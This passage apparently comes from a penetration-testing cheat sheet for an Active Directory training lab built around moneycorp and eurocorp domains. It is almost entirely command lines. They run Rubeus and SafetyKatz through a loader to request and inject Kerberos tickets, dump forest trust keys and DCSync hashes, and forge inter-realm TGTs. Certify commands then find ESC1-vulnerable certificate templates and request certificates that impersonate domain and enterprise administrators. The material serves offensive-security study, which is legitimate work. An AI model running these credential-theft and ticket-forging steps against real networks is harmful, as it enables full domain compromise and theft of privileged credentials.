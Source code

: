 ```powershell
Loader.exe -path Rubeus.exe -args asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==
 
# Test access on mcorp-dc
winrs -r:mcorp-dc.moneycorp.local "set username & set computername"
```
{% endcode %}
{% endtab %}

{% tab title="Trust Key (XForest)" %}
Forge an inter-realm TGT:

{% code overflow="wrap" %}
```powershell
# Launch a new process as the DA
Loader.exe -path Rubeus.exe -args asktgt /user:<DA> /aes256:<key> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt

# Extract the forest trust key (rc4)
Loader.exe -path SafetyKatz.exe -args "lsadump::trust /patch"
Loader.exe -path SafetyKatz.exe -args "lsadump::lsa /patch"
Loader.exe -path SafetyKatz.exe -args "lsadump::dcsync /user:dcorp\ecorp$" "exit"

# Forge the inter-realm TGT
Loader.exe -path Rubeus.exe -args silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust-key> /sid:<current-domain-SID> /ldap /user:Administrator /nowrap

# Request a TGS using the forged TGT
Loader.exe -path Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:doI...2Fs

# Access the target resource
dir \\eurocorp-dc.eurocorp.local\<explicitly-shared-share>\
```
{% endcode %}
{% endtab %}

{% tab title="ADCS" %}
```powershell
# Check ADCS usage
Certify.exe cas

# Enumerate vulnerable templates
Certify.exe find /vulnerable

# Enumerate vulnerable templates based on the current user
Certify.exe find /vulnerable /currentuser
```

Templates with `ENROLLEE_SUPPLIES_SUBJECT` set (ESC1):

{% code overflow="wrap" %}
```powershell
# Enumerate ESC1-vulnerable templates
Certify.exe find /enrolleeSuppliesSubject

# CSR for DA
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator

# CSR for EA
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator

# Convert PEM to PFX (to be used with Rubeus)
```